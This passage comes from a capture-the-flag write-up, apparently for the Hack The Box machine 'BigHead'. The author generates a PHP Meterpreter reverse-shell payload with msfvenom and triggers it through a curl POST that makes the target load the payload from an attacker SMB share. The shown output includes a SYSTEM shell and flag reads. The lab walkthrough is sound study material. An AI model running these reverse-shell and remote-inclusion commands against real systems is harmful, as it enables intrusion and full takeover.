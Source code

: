 ```
# msfvenom -p php/meterpreter/reverse_tcp -o met.php LHOST=10.10.14.23 LPORT=4444
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 1112 bytes
Saved as: met.php
```

Then sent a POST request to execute PHP code through my SMB server

```
# curl -XPOST --data "PiperID=1&PiperCoinID=\\\\10.10.14.23\share\met.php" http://code.bighead.htb/testlink/linkto.php
```

Finally, I get a proper shell as SYSTEM on the target system

```
msf5 exploit(multi/handler) > [*] Encoded stage with php/base64
[*] Sending encoded stage (51106 bytes) to 10.10.10.112
[*] Meterpreter session 4 opened (10.10.14.23:4444 -> 10.10.10.112:49159) at 2019-05-02 21:06:18 -0400

msf5 exploit(multi/handler) > sessions 4
[*] Starting interaction with 4...

meterpreter > getuid
Server username: SYSTEM (0)
```
Got user flag:
``` 
meterpreter > cat /users/nginx/desktop/user.txt
5f158a...
```

### Getting root.txt from Keepass

The `root.txt` is yet another troll:

```
meterpreter > cat /users/administrator/desktop/root.txt

                    * * *

              Gilfoyle's Prayer
     
___________________6666666___________________ 
____________66666__________66666_____________ 
_________6666___________________666__________ 
_______666__6____________________6_666_______ 
_____666_____66_______________666____66______ 
____66_______66666_________66666______666____ 
___66_________6___66_____66___66_______666___ 
__66__________66____6666_____66_________666__ 
_666___________66__666_66___66___________66__ 
_66____________6666_______6666___________666_ 
_66___________6666_________6666__________666_ 
_66________666_________________666_______666_ 
_66_____666______66_______66______666____666_ 
_666__666666666666666666666666666666666__66__ 
__66_______________6____66______________666__ 
___66______________66___66_____________666___ 
____66______________6__66_____________666____ 
_______666___________666___________666_______ 
_________6666_________6_________666__________ 
____________66666_____6____66666_____________ 
___________________6666666________________
```